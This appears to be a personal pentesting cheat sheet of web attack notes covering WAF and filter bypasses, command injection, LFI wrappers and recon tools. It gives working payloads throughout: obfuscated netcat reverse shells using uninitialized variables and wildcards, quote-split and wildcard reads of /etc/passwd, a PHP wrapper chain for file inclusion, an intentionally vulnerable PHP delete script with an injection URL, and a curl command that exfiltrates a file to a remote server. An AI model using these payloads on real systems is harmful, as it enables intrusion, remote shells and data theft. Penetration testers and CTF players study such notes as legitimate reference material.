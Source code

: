```yaml
---
description: >-
  TODO: Need to pull web notes out of the OS Agnostic section (and then rename
  that to something better!)
---
```


# Web Notes

## Payloads and Bypass Methods for Web Filtering

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings" caption="swisskyrepo / PayloadsAllTheThings" %}

{% embed url="https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/" caption="How To Exploit PHP Remotely To Bypass Filters & WAF Rules" %}

### Use Uninitialized Shell Variables to Bypass Filters

{% embed url="https://www.secjuice.com/web-application-firewall-waf-evasion/" caption="Web Application Firewall \(WAF\) Evasion Techniques \#3" %}

Uninitialized shell variables can be used for bypassing web application firewalls \(WAF\).  Example: bypassing a filter to execute a reverse shell - `nc$u -e /bin$u/bash$u <ip> <port>`.  If this doesn't work try adding spaces before and after the variable \(note the `+`'s, this example is also URL encoded\): `nc+$u++-e+/bin$u/bash$u <ip> <port>` _\(`$u` in this case is a random attacker-picked variable that would hopefully be uninitialized on the target\)._

### Use Wildcards to Bypass Filters

{% embed url="https://medium.com/secjuice/waf-evasion-techniques-718026d693d8" caption="Web Application Firewall \(WAF\) Evasion Techniques" %}

Bypass web filters by using bash wildcards:`/???/?s` `/?cmd=%2f???%2f??t%20%2f???%2fp??s??` will bypass...and execute every command that matches. such as `/bin/cat /etc/apt`, and `/bin/cat /etc/passwd`

netcat firewall bypass: `/???/n? -e /???/b??h 2130706433 1337` \(`/???/?c.??????????? -e /???/b??h 2130706433 1337` for nc traditional\)

```text
Standard: /bin/nc 127.0.0.1 1337
Evasion:/???/n? 2130706433 1337
Used chars: / ? n [0-9]

Standard: /bin/cat /etc/passwd
Evasion: /???/??t /???/??ss??
Used chars: / ? t s
```

### Use String Concatenation to Bypass Filters

```text
$ /bin/cat /etc/passwd
$ /bin/cat /e'tc'/pa'ss'wd
$ /bin/c'at' /e'tc'/pa'ss'wd
$ /b'i'n/c'a't /e't'c/p'a's's'w'd'
Can use \\ instead of ' as well
```

### Convert IP Address to Decimal Format 

It is still understood by most programs and languages, and avoids `.` character in filtered HTTP requests: `127.0.0.1 = 2130706433`

### LFI / RFI by Bypassing Filters Using Wrappers

From [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/73aa26ba6891981ec2254907b9bbd4afdc745e1d/File%20Inclusion/README.md#lfi--rfi-using-wrappers)   `php://filter/` has multiple ways to bypass PHP input filters ;These can be chained with `|` or `/` : zip, data, expect, input, phar; many more different wrappers to try!

```php
/zlib.deflate/read=string.rot13/convert.base64-encode/convert.iconv.utf-8.utf-16/resource=<resource to get>
```

## Command Injection

{% embed url="https://owasp.org/www-community/attacks/Command\_Injection" %}

### PHP Command Injection

The following PHP code snippet is vulnerable to a command injection attack:

```php
<?php
print("Please specify the name of the file to delete");
print("<p>");
$file=$_GET['filename'];
system("rm $file");
?>
```

The following request is an example of that will successful attack on the previous PHP code, and will output the results of the `id` command: `http://127.0.0.1/delete.php?filename=bob.txt;id`.  Look for exposed `$_GET['filename']` type variables that take input from the user, or can be injected into from the URL.  This combined with `system("<command>")` will allow for command injection.

Local File Inclusion \(LFI\) / Remote File Inclusion \(RFI\)

Common and/or useful files to check for when exploiting Local File Inclusion \(for both Linux and Windows\): [https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI](https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI)

## To sort

Use `curl` to exfiltrate file on remote server \(from attackers box\): `curl -d @/<file> <remote server>`

in order to proxy tools that have no proxy option: create burn proxy 127.0.0.1:80 [Ippsec:HacktheBox - Granny & Grandpa](https://www.youtube.com/watch?v=ZfPVGJGkORQ)

vulnerability testing for webdav \(or other file upload vulns!\): `davtest`

bypassing filetype filters with http MOVE command to rename allowed filetype [Ippsec:HacktheBox - Granny & Grandpa](https://www.youtube.com/watch?v=ZfPVGJGkORQ)

Wordpress enumeration: `wpscan -u <url> [--disable-tls-checks]`

pull Google cached webpage if regular site not loading: `cache:https://<somewebsite>`

virtual host routing: substitute ip for hostname to get different results

gobuster:

```bash
gobuster -u <url> -l -w <wordlist> -x php -t 20
[-l include length, -x append .php to searches, -t threads]
```

hydra against http wordpress login walkthrough: [IppSec:HacktheBox - Apocalyst](https://www.youtube.com/watch?v=TJVghYBByIA)

web application fuzzer: [wfuzz](https://github.com/xmendez/wfuzz)

Web site "flyover" surveillance: [Aquatone](https://github.com/michenriksen/aquatone) "is a tool for visual inspection of websites across a large amount of hosts and is convenient for quickly gaining an overview of HTTP-based attack surface" - from the author \(see link\). Visual dirbuster?

